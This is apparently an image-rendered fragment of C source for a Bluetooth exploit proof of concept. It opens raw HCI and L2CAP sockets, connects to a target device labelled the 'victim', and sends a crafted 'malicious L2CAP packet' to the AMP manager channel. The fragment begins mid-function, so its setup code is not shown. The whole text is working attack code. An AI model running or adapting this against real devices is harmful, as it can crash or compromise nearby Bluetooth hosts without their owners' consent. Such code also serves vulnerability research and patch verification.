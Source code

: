 ```c
  int opt = 1;
  if (setsockopt(hci_socket, SOL_HCI, HCI_DATA_DIR, &opt, sizeof(opt)) < 0) {
    perror("setsockopt(HCI_DATA_DIR)");
    return 1;
  }

  printf("[*] Connecting to victim...\n");

  struct sockaddr_l2 laddr = {0};
  laddr.l2_family = AF_BLUETOOTH;
  laddr.l2_bdaddr = di.bdaddr;

  struct sockaddr_l2 raddr = {0};
  raddr.l2_family = AF_BLUETOOTH;
  raddr.l2_bdaddr = dst_addr;

  int l2_sock;

  if ((l2_sock = socket(PF_BLUETOOTH, SOCK_RAW, BTPROTO_L2CAP)) < 0) {
    perror("socket");
    return 1;
  }

  if (bind(l2_sock, (struct sockaddr *)&laddr, sizeof(laddr)) < 0) {
    perror("bind");
    return 1;
  }

  if (connect(l2_sock, (struct sockaddr *)&raddr, sizeof(raddr)) < 0) {
    perror("connect");
    return 1;
  }

  struct l2cap_conninfo l2_conninfo;
  socklen_t l2_conninfolen = sizeof(l2_conninfo);
  if (getsockopt(l2_sock, SOL_L2CAP, L2CAP_CONNINFO, &l2_conninfo, &l2_conninfolen) < 0) {
    perror("getsockopt");
    return 1;
  }

  uint16_t hci_handle = l2_conninfo.hci_handle;
  printf("[+] HCI handle: %x\n", hci_handle);

  printf("[*] Sending malicious L2CAP packet...\n");
  struct {
    l2cap_hdr hdr;
    uint16_t ctrl;
    uint16_t fcs;
  } packet = {0};
  packet.hdr.len = htobs(sizeof(packet) - L2CAP_HDR_SIZE);
  packet.hdr.cid = htobs(AMP_MGR_CID);
  packet.fcs = crc16(0, &packet, sizeof(packet) - 2);
  hci_send_acl_data(hci_socket, hci_handle, &packet, sizeof(packet));

  close(l2_sock);
  hci_close_dev(hci_socket);

  return 0;
}
```
